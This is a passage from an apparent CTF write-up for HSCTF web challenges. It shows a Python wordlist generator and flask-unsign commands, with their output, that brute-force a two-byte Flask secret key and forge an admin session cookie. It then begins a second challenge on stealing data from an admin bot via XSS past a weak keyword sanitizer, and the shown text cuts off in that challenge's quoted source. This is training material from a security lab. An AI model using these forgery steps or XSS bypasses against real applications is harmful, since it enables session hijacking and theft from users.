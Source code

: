 ```python
    return render_template("flag.html", flag=FLAG, admin = is_admin)

if __name__ == '__main__':
    app.run()
```

on inspecting the [app.py](http://app.py) , we can see the SECRET_KEY is the random of length 2 bytes!!

So , we can able to bruteforce the SECRET_KEY easily!!

For that we have to generate the random bytes length of 300.

```python
f= open("bytes.txt",'a+')
for i in range(300):
	for j in range(300):
		f.write(f'{chr(i)}{chr(j)}\n')
```

Using flask-unsign we can able to bruteforce the secret_key

```python
flask-unsign --wordlist ~/Desktop/bytes.txt --unsign --cookie 'eyJuYW1lIjoidXNlciJ9.ZH7Xnw.QP8s7mNoNvwInGLDBN3fgw46Zuk' --no-literal-eval
[*] Session decodes to: {'name': 'user'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 34816 attempts
b'p6'
```

‘p6’ is the secret key used!!.

Now , we have to sign the token using this secretkey

```python
flask-unsign --sign --cookie "{'name': 'admin'}" --secret 'p6'

eyJuYW1lIjoiYWRtaW4ifQ.ZH7d-w.YF2iU4MpkmE9CXkCE8lIGenZ_Pc
```

So using this token , we can able to get the flag !!.

## Chall 5 →**fancy-page**

link : [http://fancy-page.hsctf.com/](http://fancy-page.hsctf.com/)

Description : hmmm

**Solution:**

In this webpage , we can able to create a content and send that content to the admin bot.

So, if we popup XSS , we can able to steal any info from the admin bot!!.

They gave the source code of the challenge.

```jsx
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

```
